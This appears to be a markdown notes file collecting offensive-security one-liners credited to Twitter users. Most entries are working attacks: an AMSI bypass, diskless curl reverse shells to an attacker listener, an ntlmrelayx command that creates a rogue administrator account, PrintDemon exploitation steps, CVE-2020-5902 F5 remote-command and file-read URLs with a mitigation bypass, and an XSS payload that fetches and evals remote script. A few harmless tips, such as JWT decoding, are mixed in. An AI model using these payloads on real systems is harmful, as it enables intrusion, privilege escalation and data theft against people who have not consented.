

# notes 

### matty graeber I think it was:

````[Ref].Assembly.GetType('http://System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)````

and old school AMSI bypass recorded here for posterity. 

### @joevennix writes:

````
reverse curl is a solid payload:

P=$(mktemp -u);mkfifo $P;curl -sNkT . https://$LHOST:$LPORT<$P|sh>$P
````
(diskless on linux):

````  
{ curl -sNkT . https://$LHOST:$LPORT </dev/fd/3| sh 3>&-;} 3>&1|:
````
diskless linux reverse shell :fire:

### @noopy writes:

````
["Computers you have admin on","HTML","pwn.html","MATCH (m:Group {name: 'GROUP@EXAMPLE.COM'})-[r:AdminTo]->(n:Computer) RETURN http://n.name"]
Copy+paste -> CrackMapExec
````
Bloodhound tip. :star:

### @neosysforensics ™  for PrintDemon bug on Windows 7

```
1. Set-WmiInstance -Class Win32_Printer -Argument @{DriverName="Generic / Text Only" ;PortName="c:\windows\system32\mydll.dll" ;DeviceID="EvilPrinter" ;RawOnly="True"}

2. $printers=Get-WmiObject Win32_Printer

3. $printer = $printers | where {$_.name -eq "EvilPrinter"}

4. $printer.Pause()

5. Start-Process -FilePath “mydll.txt" -Verb Print

--Reboot the system--

6. $printers=Get-WmiObject Win32_Printer
7. $printer = $printers | where {$ _.name -eq "EvilPrinter"}
8. $printer.Resume()
```
### @akita_zen from Argentina says

```
cat alive-subdomains.txt | parallel -j50 -q curl -w 'Status:%{http_code}\t  Size:%{size_download}\t %{url_effective}\n' -o /dev/null -sk
```

### From Paul Seekamp @nullenc0de...

SMB Signing enabled? NetBIOS and LLMNR disabled? Need another way in?

```
mitm6 -i eth0 -d example.local

ntlmrelayx.py -ip 0.0.0.0 -t rpc://example.local -c "net user nullenc0de nullen0code_is_Here /add && net localgroup Administrators nullenc0de /add"
```

### @liamsomerville 

A quick and easy way of pretty printing JSON web tokens: 

```` echo "<JWT>" | tr "." "\n" | base64 -D | jq "." (-d on Linux) ````

### Powershell obfuscation



### @0gtweet (Grzegorz Tworek) on Twitter says

Live kernel dump with PowerShell one-liner :sunglasses:

````
$ss = Get-CimInstance -ClassName MSFT_StorageSubSystem -Namespace Root\Microsoft\Windows\Storage
Invoke-CimMethod -InputObject $ss -MethodName "GetDiagnosticInfo" -Arguments @{DestinationPath="C:\dmp"; IncludeLiveDump=$true}
````

### @x4ce spills the beans on cve-2020-5902 :neckbeard:

First RCE: 

````curl -v -k  'https://[F5 Host]/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin'````

then arbitrary read File: 

````curl -v -k  'https://[F5 Host]/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd'````

### not to be outdone @wugeej rams the exploit in the skids hands
LFI

````
https://<IP>/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd
or /etc/hosts
or /config/bigip.license
````

RCE

````
https://<IP>/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=whoami
````
or to bypass mitigation :eyes:

````https://<IP>/tmui/login.jsp/..%3b/tmui/locallb/workspace/tmshCmd.jsp?command=list````

### @ropnop does javascript! xss source remote payload

````
<svg/onload='fetch("//r0p.cc/a").then(r=>r.text().then(t=>eval(t)))'>
````

but I doubt it will work everywhere?
